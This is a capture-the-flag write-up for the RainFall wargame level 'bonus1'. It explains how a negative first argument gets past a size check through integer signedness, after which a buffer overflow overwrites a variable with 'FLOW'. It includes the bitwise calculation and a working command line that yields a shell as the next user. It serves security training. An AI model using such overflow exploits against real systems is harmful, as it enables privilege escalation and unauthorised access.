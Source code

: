 # Bonus 1

The first parameter is converted to an int we'll call `val` using `atoi` and stored after the 40 bytes `dest` buffer.
The program exits immediately if `val` is bigger than 9.

If this first check passes, `val * 4` amount of characters from the second parameter are copied into `dest`, presenting an opportunity to overflow.
After that a second check is executed, calling `execl` if `val` is equal to `FLOW`.

## First bypass
We need to copy (11 * 4) bytes of argv[2] into the `dest` buffer, overwriting `val` after the first check.

To do that and bypass the first check we'll use an [underflow](https://www.geeksforgeeks.org/representation-of-negative-binary-numbers/) that'll be negative yet equal to 11 when cast to `size_t` (unsigned).

Let's do some [bitwise](https://bitwisecmd.com/).
```
11 OR INT_MIN
11 | -2147483648
	11              00000000000000000000000000001011	0xb
|	-2147483648	10000000000000000000000000000000	-0x80000000
=	-2147483637	10000000000000000000000000001011	-0x7ffffff5
```
We'll need to give `-2147483637` as the first argument (INT_MIN + 11).

## Second bypass
Now that we can control the amount of bytes from the second argument copied into the buffer let's just fill it with 40 bytes of junk and replace `val` with `FLOW`:
```shell
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print 40 * "A" + "FLOW"')
$ whoami
bonus2
```
Bingo!
